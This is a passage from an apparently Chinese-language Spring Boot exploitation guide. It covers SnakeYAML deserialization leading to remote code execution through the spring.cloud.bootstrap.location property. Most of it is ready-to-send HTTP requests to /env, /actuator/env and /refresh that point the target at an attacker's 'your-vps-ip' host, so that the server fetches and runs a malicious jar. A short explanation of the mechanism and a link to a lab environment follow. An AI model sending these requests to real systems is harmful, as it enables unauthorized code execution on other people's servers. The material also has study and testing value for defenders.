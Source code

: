 在网站根目录下放置后缀为 `jar` 的文件 `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。

**步骤二： 设置 spring.cloud.bootstrap.location 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```

**步骤三： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```

**漏洞原理：**

1. spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL 地址
2. refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
3. SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作
4. 先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
5. 然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化
6. 实例化类时执行恶意代码，造成 RCE 漏洞

**漏洞分析：**

​ [Exploit Spring Boot Actuator 之 Spring Cloud Env 学习笔记](https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)

**漏洞环境：**

[repository/springcloud-snakeyaml-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce)

正常访问：

```
http://127.0.0.1:9092/env
```
